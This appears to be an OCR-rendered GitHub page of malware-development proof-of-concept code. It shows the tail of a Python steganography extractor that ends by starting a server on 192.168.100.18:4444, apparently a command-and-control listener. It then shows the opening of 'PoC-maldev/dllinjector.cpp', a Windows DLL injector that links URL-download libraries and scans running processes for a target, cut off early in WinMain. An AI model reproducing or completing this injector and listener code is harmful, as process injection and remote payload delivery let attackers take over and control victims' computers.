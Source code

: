 ```python3
    message = b""
    for i in range(len(hidden_bits)):
      if message[-16:] == b"$end_of_message$":
        break
      else:
        message += chr(int(hidden_bits[i],2)).encode('latin-1')
    dstFile = open("encrypted.bin", "wb")
    if b"$end_of_message" in message:
      dstFile.write(message[:-16])
      dstFile.close()
      print("\nUnhidden message successfully!\n")
    else:
      print("\nNo Hidden Message Found\n")

if name == "main":
  server = Server("192.168.100.18", 4444)
  server.run()
```

- Script PoC-maldev/dllinjector.cpp
```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>
#include <urlmon.h>
#include <wininet.h>

#pragma comment(lib, "Urlmon.lib")
#pragma comment(lib, "Wininet.lib")

int SearchForProcess(const char *processName) {

	HANDLE hSnapshotOfProcesses;
	PROCESSENTRY32 processStruct;
	int pid = 0;

	hSnapshotOfProcesses = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (INVALID_HANDLE_VALUE == hSnapshotOfProcesses) return 0;

	processStruct.dwSize = sizeof(PROCESSENTRY32); 

	if (!Process32First(hSnapshotOfProcesses, &processStruct)) {
		CloseHandle(hSnapshotOfProcesses);
		return 0;
	}

	while (Process32Next(hSnapshotOfProcesses, &processStruct)) {
		if (lstrcmpiA(processName, processStruct.szExeFile) == 0) {
			pid = processStruct.th32ProcessID;
			break;
		}
	}

	CloseHandle(hSnapshotOfProcesses);

	return pid;
}

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
//int main(int argc, char *argv[]) {
	
	HANDLE hProcess;
```